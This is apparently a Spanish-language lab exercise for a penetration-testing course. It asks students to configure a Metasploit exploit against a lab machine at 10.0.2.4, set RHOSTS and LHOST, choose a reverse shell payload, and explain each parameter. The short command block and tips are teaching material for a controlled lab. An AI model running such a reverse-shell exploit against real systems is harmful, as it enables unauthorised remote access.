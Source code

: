 **2.3. Configuración del Exploit en el Framework Metasploit (2 puntos)**

Configura el exploit mencionado anteriormente, especificando los parámetros necesarios, como las direcciones IP del atacante y la víctima.

````bash
set RHOSTS 10.0.2.4
set verbose true
run
````

![set](/assets/images/set_rhosts.JPG)


Tip: Configura los parámetros RHOSTS para la IP de la máquina objetivo y LHOST para tu máquina atacante. Estos son esenciales para establecer la conexión.

![lhost](/assets/images/lhost.JPG)

Tip adicional: También debes configurar el payload para el reverse shell. Busca en el metasploit un payload (que ya anteriormente hemos usado en clase) para obtener un reverse shell connection.

Explica brevemente cada parámetro crítico que configuraste, como LHOST y RHOSTS, y justifica por qué esos valores son importantes para el ataque.
